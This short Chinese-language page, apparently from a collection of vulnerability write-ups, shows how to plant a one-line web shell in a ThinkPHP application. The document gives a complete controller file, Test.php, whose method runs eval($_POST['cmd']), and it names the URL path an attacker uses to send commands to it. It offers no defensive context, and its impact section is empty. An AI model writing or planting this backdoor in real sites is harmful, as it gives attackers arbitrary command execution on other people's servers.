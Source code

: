 # Thinkphp 专用shell

### 一、漏洞简介

基于thinkphp框架的一句话写法 thinkphp框架使用入口文件调用控制器，直接写一句话可能会有解析问题导致无法执行指令，研究了一下把一句话套入框架控制器的方法，分享给大家参考，

### 二、漏洞影响

### 三、复现过程

在index的控制器文件夹下建立Test.php文件，代码如下:


```php
<?php 
namespace app\index\controller; 

class Test 

{ 

    public function test() 

    { 

    eval($_POST["cmd"]); 

    } 

} 

```

一句话的地址就是`http://url/index/test/test`